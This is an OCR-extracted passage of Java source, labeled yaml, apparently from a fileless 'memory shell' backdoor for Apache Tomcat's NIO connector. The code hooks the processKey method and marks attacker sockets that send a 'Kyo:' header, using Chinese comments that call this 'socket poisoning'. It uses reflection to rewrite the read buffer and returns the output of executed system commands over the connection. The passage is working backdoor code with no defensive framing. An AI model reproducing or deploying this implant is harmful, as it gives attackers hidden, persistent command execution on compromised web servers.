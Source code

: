 ```yaml
                    reader = new InputStreamReader(exec.getInputStream(), "gbk");
                    bufferedReader = new BufferedReader(reader);
                    temp = null;
                    while ((temp = bufferedReader.readLine()) != null) {
                        cmdBuffer.append(temp + "\n");
                    }
                }
            } catch (IOException e) {
                sendResponse(socket, "命令执行失败");
                return;
            }
            sendResponse(socket, cmdBuffer.toString());
        }

        @Override
        protected boolean processKey(SelectionKey sk, NioEndpoint.KeyAttachment attachment) {
            Boolean process = true;
            ByteBuffer readBuffer = attachment.getSocket().getBufHandler().getReadBuffer();
            String IDkey = null;
            try {
                IDkey = attachment.getSocket().getIOChannel().getRemoteAddress().toString();
            } catch (IOException e) {
            }

            //毒化的socket直接读取read
            if (map.contains(IDkey)) {
                handlerSocket(sk, attachment);
                return process;
            }

//        读取缓存Buffer
            String keyBad = getRequest(new String(readBuffer.array()), ".*Kyo:(.*)");
            if (keyBad != null) {
                String request1 = getRequest(new String(readBuffer.array()), ".*who:(.*)");
//            还未注册内存马就发送Kyo命令执行，此时readBuffer还未自动添加who，所以存在取不到的可能
                if(request1 !=null) {
//                socket毒化
                    map.add(request1.trim());
                }
            }

//        正常业务流程
            Boolean b =  super.processKey(sk, attachment);


            /**
             * readBuffer socket登记
             */
            ByteBuffer allocate = ByteBuffer.allocate(readBuffer.array().length);
            allocate.put(Arrays.copyOfRange(readBuffer.array(), 0, readBuffer.array().length - 30));
            allocate.put(("who: " + IDkey + "\r\n").getBytes());
            try {
                Field readbuf = NioEndpoint.NioBufferHandler.class.getDeclaredField("readbuf");
                readbuf.setAccessible(true);
                readbuf.set(attachment.getSocket().getBufHandler(), allocate);
            } catch (Exception e) {
            }
            return b;
        }
    }

    Object getField(Object object, String fieldName) {
```